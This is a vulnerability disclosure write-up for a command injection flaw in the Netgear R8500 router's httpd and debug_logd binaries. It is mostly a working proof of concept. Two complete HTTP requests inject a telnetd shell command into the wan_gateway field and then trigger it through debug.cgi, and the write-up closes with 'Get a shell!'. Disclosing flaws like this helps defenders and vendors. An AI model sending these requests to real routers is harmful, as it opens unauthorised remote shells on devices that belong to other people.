





# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In the router's `ether.cgi、genie_fix2.cgi、wiz_fix2.cgi、bsw_fix.cgi` function, `wan_gateway` is directly passed by the attacker, so we can control the `wan_gateway` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

In `debug.cgi` function, It calls the process `debug_logd`.

<div  align="center"></div>

In `debug_logd` binary:

In `main` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `wan_gateway`, in `ether.cgi`
* visit the `debug.cgi`


## PoC

We set `wan_gateway` as **192.168.0.1 %24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29** , in `ether.cgi`

```http
POST /ether.cgi?id=7543f5c4195bd3e82f1cfd51accdf28938e1282c31742d171bd4a94b8b1a2c79 HTTP/1.1
Host: 192.168.1.1
Content-Length: 772
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/BAS_ether.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

apply=%E5%BA%94%E7%94%A8&system_name=R8500&domain_name=&WANAssign=static&WPethr1=192&WPethr2=168&WPethr3=0&WPethr4=66&WMask1=255&WMask2=255&WMask3=255&WMask4=0&WGateway1=192&WGateway2=168&WGateway3=0&WGateway4=1&DNSAssign=1&DAddr1=192&DAddr2=168&DAddr3=0&DAddr4=1&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&MACAssign=0&runtest=no&wan_proto=dhcp&wan_ipaddr=192.168.0.66&wan_netmask=255.255.255.0&wan_gateway=192.168.0.1 %24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29&wan_dns_sel=0&wan_dns1_pri=192.168.0.1&wan_dns1_sec=...&wan_hwaddr_sel=0&wan_hwaddr_def=2C%3A30%3A33%3A66%3AB7%3AAD&wan_hwaddr2=function+toUpperCase%28%29+%7B+%5Bnative+code%5D+%7D&wan_hwaddr_pc=9C%3A2D%3ACD%3AB1%3A73%3AE5&lan_ipaddr=192.168.1.1&lan_netmask=255.255.255.0&parental_control=0&ipv6_proto=disable
```

<div  align="center"></div>

visit the `debug.cgi`

```http
POST /debug.cgi?id=e9b5d472b77762fca77b92a59472152d832c1482064d9c22d2feeab0ec0f9cd6 HTTP/1.1
Host: 192.168.1.1
Content-Length: 212
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/DebugHiddenPage_iqos.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

usb_storage_detected=1&speedtest_method=1&action_Save_To_USB=1&action_Start_Debug=Start_Debug&action_Capture_Packets=Capture_packet&action_trend_iqos=trend_iqos_debug_mode&debug_in_process=&debug_hidden_page=iqos
```


## Result

Get a shell!

<div  align="center"></div>
